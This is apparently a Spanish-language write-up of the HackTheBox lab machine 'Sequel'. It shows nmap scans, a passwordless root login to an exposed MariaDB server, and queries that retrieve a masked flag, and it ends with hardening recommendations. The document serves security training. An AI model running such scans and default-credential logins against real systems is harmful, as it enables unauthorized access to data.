






# Sequel
> **Dificultad:** Muy Fácil.

> **IP:** 10.129.33.6 

> **SO:** Linux.

> **Habilidades puestas a prueba:**
> - Reconocimiento de puertos.
> - Consultas SQL basicas.

> **Hallazgos:** Servicio MariaDB expuesto que permite el acceso sin contraseña en el usuario root lo cual permite a un actor de amenaza establecer conexión y realizar una exfiltración de información sensible.

---

# Descripción
Sequel es una máquina Linux muy sencilla que introduce un servicio MySQL vulnerable mal configurado para permitir el acceso sin contraseña. La máquina muestra cómo enumerar e interactuar con la base de datos mediante consultas SQL para extraer información crítica.

---

# Herramientas utilizadas
- `Nmap` - Herramienta de escaneo de red empleada para la identificación de servicios en la máquina objetivo.
- `Cliente MySQL` - Interacción directa con el servicio MySQL.
- `Kali Linux` - Distribución utilizada como entorno de trabajo.

---

# Alcance y objetivos
Establecer conexión con el servicio MySQL, enumerar las bases de datos y moverse por las mismas buscando el Flag.


---

# Escaneo y reconocimiento
Se ejecutó un escaneo inicial sobre la IP objetivo para detectar servicios activos y posteriormente se utilizaron scripts de Nse para obtener detalles adicionales del servicio de base de datos:

````bash
nmap -sS -sV -Pn -p- --open -T5 10.129.33.6
````



Posteriormente se ejecutó un escaneo con scripts de Nse dirigidos al servicio MySQL:

````bash
nmap -sS -Pn -p 3306 --script "mysql*" 10.129.33.6
````
# Output
````bash
PORT     STATE SERVICE VERSION
3306/tcp open  mysql   5.5.5-10.3.27-MariaDB-0+deb10u1
````


# Desglose del comando:
1. **`-sS ` (SYN Scan)**: Realiza un escaneo de sigilo (medio abierto) para determinar si el puerto está abierto sin completar el saludo de tres vías (Three-Way Handshake) de TCP.
2. **`-sV` (Version Detection):** Interroga al puerto para identificar la versión exacta del servicio activo.
3. **`-Pn` (No Ping):** Omite la prueba ICMP inicial y asume que el host está activo para evitar que un firewall bloquee el análisis.
4. **`-p-`:** Escanea la totalidad de los 65,536 puertos TCP.
5. **`–open`:** Muestra únicamente los puertos abiertos.
6. **`-T5`:** Aplica una velocidad muy alta para analizar los puertos.
7. **`–script “mysql*”`:** Aplica todos los scripts disponibles de Mysql
8. **`-p 3306`:** Limita el escaneo al servicio Mysql

---

# Enumeración
Al confirmar la presencia de MariaDB en el puerto 3306/TCP, se procedió a probar una conexión con el cliente nativo de MySQL indicando el usuario privilegiado root sin contraseña: 
````bash
mysql -h 10.129.33.6 -u root
````
Pero al intentar iniciar sesión de esta manera se produjo el siguiente error:
````bash
ERROR 2026 (HY000): TLS/SSL error: SSL is required, but the server does not support it
````
Para omitir el intento de negociación **SSL/TLS** por parte del cliente y establecer la conexión, se agregó la bandera `--skip-ssl`:



El servidor permitió el ingreso a la consola interactiva de MariaDB sin requerir contraseña. 


---
# Explotación
Una vez dentro de la consola de MariaDB, se enumeraron las bases de datos disponibles: 



````bash
MariaDB [(none)]> SHOW databases;
+--------------------+
| Database           |
+--------------------+
| htb                |
| information_schema |
| mysql              |
| performance_schema |
+--------------------+
````

Se seleccionó la base de datos personalizada `htb` y se listaron las tablas existentes: 



````bash
MariaDB [(none)]> USE htb;
Database changed

MariaDB [htb]> SHOW tables;
+---------------+
| Tables_in_htb |
+---------------+
| config        |
| users         |
+---------------+
````

# Flag
Al inspeccionar el contenido de la tabla `config`, se localizó el parámetro relativo a la bandera: 



````bash
MariaDB [htb]> SELECT * FROM config;
+----+-----------------------+----------------------------------+
| id | name                  | value                            |
+----+-----------------------+----------------------------------+
|  1 | timeout               | 60s                              |
|  2 | security              | default                          |
|  3 | auto_logon            | false                            |
|  4 | max_size              | 2M                               |
|  5 | flag                  | 7b4be*************************** |
|  6 | enable_uploads        | false                            |
|  7 | authentication_method | radius                           |
+----+-----------------------+----------------------------------+
````

### Flag : 7b4be******************

---

# Lecciones aprendidas y recomendaciones
- **Configurar contraseñas robustas para el usuario root:** Asegurar que las cuentas administrativas de bases de datos cuenten con contraseñas complejas.
- **Restringir la exposición a la red:** El puerto 3306 no debe estar accesible abiertamente a redes no confiables. Se recomienda aplicar reglas de firewall para permitir conexiones sólo desde hosts autorizados.
- **Remover o asegurar bases de datos por defecto:** Aplicar scripts de endurecimiento como mysql_secure_installation para deshabilitar inicios de sesión remotos sin contraseña.


---

# Conclusión
El análisis sobre la máquina objetivo evidenció un riesgo crítico provocado por la exposición pública del servicio MariaDB con credenciales por defecto. La falta de contraseña en la cuenta root permitió el acceso directo a las bases de datos del sistema y la posterior exfiltración de información sensible almacenada en la tabla config.
